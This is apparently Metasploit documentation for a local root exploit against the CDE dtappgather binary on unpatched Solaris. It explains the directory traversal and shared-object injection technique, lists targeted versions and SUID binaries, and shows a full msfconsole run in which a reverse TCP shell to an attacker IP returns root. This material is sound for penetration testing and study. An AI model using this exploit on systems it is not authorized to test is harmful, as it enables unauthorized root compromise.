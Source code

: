 ## Description

  This module exploits a directory traversal vulnerability in the
  `dtappgather` executable included with Common Desktop Environment (CDE)
  on unpatched Solaris systems prior to Solaris 10u11 which allows users
  to gain root privileges.

  dtappgather allows users to create a user-owned directory at any
  location on the filesystem using the `DTUSERSESSION` environment
  variable.

  This module creates a directory in `/usr/lib/locale`, writes a shared
  object to the directory, and runs the specified SUID binary with the
  shared object loaded using the `LC_TIME` environment variable.


## Vulnerable Application

  This module has been tested successfully on:

  * Solaris 9u7 (09/04) (x86)
  * Solaris 10u1 (01/06) (x86)
  * Solaris 10u2 (06/06) (x86)
  * Solaris 10u4 (08/07) (x86)
  * Solaris 10u8 (10/09) (x86)
  * Solaris 10u9 (09/10) (x86)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/extremeparr_dtappgather_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`.

### DTAPPGATHER_PATH

  Path to `dtappgather` executable. (default: `/usr/dt/bin/dtappgather`)

### SUID_PATH

  Path to suid executable. (default: `/usr/bin/at`)

  Some useful example SUID executables:

  * /usr/bin/at
  * /usr/bin/cancel
  * /usr/bin/chkey
  * /usr/bin/lp
  * /usr/bin/lpset
  * /usr/bin/lpstat
  * /usr/lib/lp/bin/netpr
  * /usr/sbin/lpmove


## Scenarios

### Solaris 10u1 (x86)

  ```
  msf > use exploit/solaris/local/extremeparr_dtappgather_priv_esc 
  msf exploit(solaris/local/extremeparr_dtappgather_priv_esc) > set session 1
  session => 1
  msf exploit(solaris/local/extremeparr_dtappgather_priv_esc) > set lhost 172.16.191.196
  lhost => 172.16.191.196
  msf exploit(solaris/local/extremeparr_dtappgather_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.196:4444 
  [+] Created directory /usr/lib/locale/ExDmW
  [*] Writing '/tmp/.Wfy7WpcZej/.pv7h2R.c' (170 bytes) ...
  [*] Writing '/tmp/.Wfy7WpcZej/.uGjK3nLc5' (175 bytes) ...
  [*] Executing payload...
  [!] Tried to delete /var/dt/appconfig/appmanager, unknown result
  [+] Deleted /tmp/.Wfy7WpcZej/.pv7h2R.c
  [+] Deleted /tmp/.Wfy7WpcZej/.pv7h2R
  [+] Deleted /usr/lib/locale/ExDmW/ExDmW.so.2
  [+] Deleted /usr/lib/locale/ExDmW/ExDmW.so.3
  [+] Deleted /tmp/.Wfy7WpcZej/.uGjK3nLc5
  [+] Deleted /usr/lib/locale/ExDmW
  [+] Deleted /tmp/.Wfy7WpcZej

  id
  uid=0(root) gid=0(root)
  uname -a
  SunOS unknown 5.10 Generic_118844-26 i86pc i386 i86pc
  cat /etc/release
                          Solaris 10 1/06 s10x_u1wos_19a X86
             Copyright 2005 Sun Microsystems, Inc.  All Rights Reserved.
                          Use is subject to license terms.
                             Assembled 07 December 2005
  ```

